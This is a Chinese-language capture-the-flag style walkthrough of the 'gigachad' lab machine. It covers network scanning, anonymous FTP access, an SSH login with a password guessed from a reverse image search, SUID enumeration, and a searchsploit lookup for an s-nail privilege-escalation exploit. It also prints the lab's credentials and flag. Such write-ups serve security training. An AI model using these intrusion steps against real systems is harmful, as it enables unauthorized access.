 |   |   |   |
|---|---|---|
|gigachad|easy|ftp利用、google反图搜索、 suid提权、s-nail 提权|

# 主机发现
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.138/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.138 

|_/kingchad.html

```
开放了21，22，80
访问http://192.168.44.138//kingchad.html是一张带字的图，翻译
```c
HELL0? IS IT MI5 OR MI6?
他是谁？是军情五处还是军情六处？

WHATEVER, SOMEONE IS TRYINGTO HACK US
不管怎么说，有人想黑我们

```

# 目录扫描
```css
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gobuster dir -u http://192.168.44.138/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ffuf -u http://192.168.44.138/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200

```
很奇怪，扫描到什么就会出现什么，访问都是同一堆字符

访问首页，右键检查源码，解码后没啥用
```c
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8 
[md5在线解密破解,md5解密加密](https://www.cmd5.com/)
fuck you
VIRGIN
```
通过匿名访问获取ftp 权限，里面有一个压缩包
密码：anonymous
get出来，解压出来，得到用户名chad
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ftp 192.168.44.138 //anonymous

get chadino
unzip chadino
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat chadinfo 
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png

```
访问http://192.168.44.138/drippinchad.png下载图片
```c
WHY YES, THIS IS MY EAVORITE PLACE TO RELAX

HOW AOULD YOU TELL?
翻译
为什么是的，这是我最喜欢放松的地方

你怎么知道？
```
猜测应该是找这个地方
google搜图，谷歌上找到了这个地方叫maidens tower(处女塔)尝试使用这个地方名作为密码登录ssh 居然真成功了。
密码：maidenstower
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh chad@192.168.44.138 //maidenstower
chad@gigachad:~$ ls
ftp  user.txt
chad@gigachad:~$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

# 提权
[suid提权全解（超细）-CSDN博客](https://blog.csdn.net/qq_51524329/article/details/121865922)
[浅谈linux suid提权 - 先知社区](https://xz.aliyun.com/t/12535?time__1311=mqmhD50KBKDK50Hq4%2BOrxuDAhIYwpPjex)

```c
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
```

这有一个 s-nail 文件，查看漏洞库发现低于 14.8.16 的版本存在漏洞。s-nail是右键管理命令
```c
chad@gigachad:~$ find / -perm -u=s -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10104 Jan  1  2016 /usr/lib/s-nail/s-nail-privsep
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
chad@gigachad:~$ s-nail -V
v14.8.6

```

```c
┌──(kali㉿kali)-[~]
└─$ searchsploit s-nail                     
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalat | multiple/local/47172.sh
------------------------------------------- ---------------------------------
Shellcodes: No Results

```
